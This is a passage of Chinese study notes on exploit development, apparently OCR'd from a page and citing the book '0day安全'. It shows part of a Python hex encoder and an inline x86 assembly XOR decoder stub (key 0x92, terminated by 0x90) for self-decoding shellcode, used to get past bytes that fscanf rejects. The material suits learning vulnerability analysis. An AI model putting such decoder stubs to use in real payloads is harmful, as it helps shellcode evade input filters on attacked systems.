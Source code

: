```python
            e = ""
            if(len(hex(x)[2:])==1):
                e = '0'+hex(x)[2:]
            else:
                e = hex(x)[2:]
            print(e,end="")
            #print(hex(x)[2:],end=" ")
        print("")
```

解码指令

```c
__asm{
	lea eax,[eip+15h]; 	//越过解码指令，记录shellcode的起始地址
    xor ecx,ecx;
    
    decode_loop:
    mov bl,[eax+ecx];
    xor bl,0x92;	//key为0x92
    mov [eax+ecx],bl;
    inc ecx;
    cmp bl,0x90;	//shellcode末尾利用0x90作为结束符
    jne decode_loop;
}
```

组合shellcode 可以避免fscanf读不进去的问题



## 参考资料

《0day安全：软件漏洞分析技术》

TEB和PEB 学习资料 https://liwz11.com/blog/archives/402.html
